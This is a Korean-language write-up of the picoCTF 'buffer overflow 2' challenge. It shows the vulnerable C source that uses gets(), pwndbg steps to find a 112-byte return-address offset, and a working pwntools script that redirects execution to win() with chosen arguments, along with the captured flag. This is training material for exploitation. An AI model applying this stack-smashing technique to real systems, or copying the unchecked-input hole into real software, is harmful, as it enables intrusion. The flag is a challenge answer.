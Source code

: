 # [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)
<br />

- [Description](#description)
- [Exploitation](#exploitation)
  * [1. 오프셋 구하기](#1-오프셋-구하기)
  * [2. win()함수 인자의 정확한 오프셋 확인하기](#2-win함수-인자의-정확한-오프셋-확인하기)
- [FLAG](#flag)
<br />

# Discription
> Control the return address and arguments
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buffer_overflow_2/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. 32비트 환경
2. win(0xCAFEF00D, 0xF00DF00D) 호출 -> FLAG 출력
3. gets(buf) 호출 -> 버퍼오버플로우 발생
4. Partial RELRO, No canary, No PIE
```
취합된 정보를 토대로 공격 과정을 정리하면, `gets()`는 입력 값의 길이를 검증하지 않기 때문에 스택 버퍼오버플로우가 발생하며, 해당 바이너리에는 canary가 적용되어 있지 않습니다. 따라서 해당 취약점으로 리턴 주소를 win()의 주소로 덮고, 인자를 요구하는 값으로 설정하면 FLAG가 출력될 것입니다.
<br />
<br />

## 1. 오프셋 구하기
```yaml
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
중복되지 않는 무작위 값을 생성합니다.
```yaml
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
```
무작위 값을 입력하고, `c`를 하여 오류가 발생하도록 합니다.
```yaml
pwndbg> i r eip
eip            0x62616164          0x62616164
```
이후 해당 명령어로 eip에 저장된 값을 확인합니다. eip에 저장된 값은 `0x62616164`이며, 해당 값을 추적하여 버퍼 시작점부터 리턴 주소까지의 오프셋을 알아낼 수 있습니다.
```yaml
pwndbg> cyclic -l 0x62616164
Finding cyclic pattern of 4 bytes: b'daab' (hex: 0x64616162)
Found at offset 112
```
오프셋은 112 입니다.

> [!NOTE]
> 프로그램 종료 전 RET은 스택 최상단에 있는 복귀 주소(Return address)를 꺼내어 EIP에 넣고 프로그램의 흐름을 호출자(main)로 되돌립니다. 그러나 패턴 문자열로 버퍼 오버플로우를 일으키면, 이 복귀 주소가 패턴 데이터로 덮이게 됩니다. 그 결과 RET은 정상적인 복귀 주소 대신 패턴의 일부를 EIP에 복사하게 되고, 프로그램은 잘못된 주소로 점프하려다 크래시가 발생하게 됩니다. 이때 EIP에 저장된 값이 패턴 문자열의 몇 번째 위치인지 확인하면, 버퍼의 시작점에서 부터 Return Address까지의 정확한 오프셋을 계산할 수 있습니다.
<br />


## 2. `win()`함수 인자의 정확한 오프셋 확인하기

```asm
pwndbg> x/60i win
   0x8049296 <win>:     endbr32
   0x804929a <win+4>:   push   ebp
   0x804929b <win+5>:   mov    ebp,esp
   0x804929d <win+7>:   push   ebx
   0x804929e <win+8>:   sub    esp,0x54
...
   0x8049303 <win+109>: push   eax
   0x8049304 <win+110>: call   0x8049100 <fgets@plt>
   0x8049309 <win+115>: add    esp,0x10
=> 0x804930c <win+118>: cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x8049313 <win+125>: jne    0x804932f <win+153>
   0x8049315 <win+127>: cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x804931c <win+134>: jne    0x8049332 <win+156>
...
```
위 결과로 첫 번째 인자는 `ebp + 0x8`에 위치하고, 두 번째 인자는 `ebp + 0xc`에 위치하는 것을 알 수 있습니다. 분석한 정보를 가지고 공격 코드를 작성할 수 있습니다.

```python
from pwn import *

p = process("./vuln")
# p = remote("saturn.picoctf.net", 55191)

pay = b"A"*112
pay += p32(0x8049296)  # win addr
pay += b"A"*4
pay += p32(0xCAFEF00D) # arg1 (ebp + 0x8)
pay += p32(0xF00DF00D) # arg2 (ebp + 0xc)

p.send(pay)
p.interactive()
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to saturn.picoctf.net on port 55191: Done
[*] Switching to interactive mode
Please enter your string:
$
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
picoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```
